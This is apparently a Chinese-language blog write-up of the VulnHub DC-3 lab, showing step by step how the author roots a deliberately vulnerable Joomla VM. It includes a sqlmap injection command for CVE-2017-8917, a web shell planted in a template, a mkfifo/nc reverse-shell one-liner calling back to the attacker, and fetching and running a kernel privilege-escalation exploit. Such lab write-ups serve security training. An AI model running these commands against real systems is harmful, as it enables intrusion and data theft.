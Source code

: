 ```yaml
---
# 这是页面的图标
icon: api
# 这是文章的标题
title: 靶机 DC3-writeup
# 设置作者
author: lhz
# 设置写作时间
time: 2021-09-24
# 一个页面只能有一个分类
category: 渗透
# 一个页面可以有多个标签
tag:
  - 渗透
  - 靶机
comment: false
typora-root-url: ..\..\..\.vuepress\public

---
```


## 0x01 部署

靶机地址：

><https://www.vulnhub.com/entry/dc-3,312/>

**DESCRIPTION**

DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).

If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

只有一个flag

## 0x02 信息收集

靶机使用virtual box部署，kali使用vmware部署，都为桥接模式

nmap扫描网段

```
nmap -sP 172.21.34.0/24
```

![image-20210924101423240](/assets/img/image-20210924101423240.png)

发现靶机IP：172.21.34.31，继续扫描

```
nmap -T5 -A -v -p- 172.21.34.31
```

结果：

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-24 10:04 CST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating ARP Ping Scan at 10:04
Scanning 172.21.34.31 [1 port]
Completed ARP Ping Scan at 10:04, 0.06s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:04
Completed Parallel DNS resolution of 1 host. at 10:04, 0.00s elapsed
Initiating SYN Stealth Scan at 10:04
Scanning 172.21.34.31 [65535 ports]
Discovered open port 80/tcp on 172.21.34.31
Completed SYN Stealth Scan at 10:04, 1.27s elapsed (65535 total ports)
Initiating Service scan at 10:04
Scanning 1 service on 172.21.34.31
Completed Service scan at 10:04, 11.06s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 172.21.34.31
NSE: Script scanning 172.21.34.31.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.41s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.04s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Nmap scan report for 172.21.34.31
Host is up (0.00072s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:2E:55:BC (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Uptime guess: 198.048 days (since Wed Mar 10 08:55:41 2021)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE
HOP RTT     ADDRESS
1   0.73 ms 172.21.34.31

NSE: Script Post-scanning.
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Initiating NSE at 10:04
Completed NSE at 10:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.28 seconds
           Raw packets sent: 65558 (2.885MB) | Rcvd: 65550 (2.623MB)
```

发现80端口，运行的Joomla

## 0x03 漏洞利用

使用msf查看Joomla版本为3.7.0

![image-20210924102654550](/assets/img/image-20210924102654550.png)

搜索Joomla 3.7.0版本漏洞

![image-20210924102850545](/assets/img/image-20210924102850545.png)

发现CVE-2017-8917 SQL注入漏洞： https://www.exploit-db.com/exploits/42033

上sqlmap

```txt
sqlmap -u "http://172.21.34.31/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T '#__users' -C username,password --dump
```

发现用户

![image-20210924103753282](/assets/img/image-20210924103753282.png)

使用john爆破，得到密码

![image-20210924104911090](/assets/img/image-20210924104911090.png)

在`http://172.21.34.31/administrator/index.php`登录，发现模板编辑功能，可以愉快的加马了，修改Beez3模板下index.php，加上一句话

![image-20210924111319969](/assets/img/image-20210924111319969.png)

修改完成后将Beez3模板设置为默认模板，使用蚁剑连接成功

![image-20210924111451058](/assets/img/image-20210924111451058.png)

![image-20210924111544587](/assets/img/image-20210924111544587.png)

先拿shell，kali上运行

```
nc -lvp 4444
```

因为靶机上是openbsd nc，不支持-e，所以使用以下命令反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.141.134 4444 >/tmp/f
```

![image-20210924141311663](/assets/img/image-20210924141311663.png)

## 0x04 提权

查看当前目录下，未找到flag相关文件，考虑提权，根据ubuntu和内核版本搜索相关漏洞

```
searchsploit -w ubuntu 16.04 4.4
```

![image-20210924141536034](/assets/img/image-20210924141536034.png)

使用CVE-2016-4557：https://www.exploit-db.com/exploits/39772

kali下载EXP

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip  --no-check-certificate
```

启动web服务

```
python -m SimpleHTTPServer 8090
```

靶机下载，解压，编译运行

```
wget http://172.21.34.30:8090/39772.zip
unzip 39772.zip
cd 39772
tar xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
sh compile.sh
./doubleput
```

提权成功获得root权限，在`/root/`下发现flag文件，获得flag

![image-20210924142338904](/assets/img/image-20210924142338904.png)

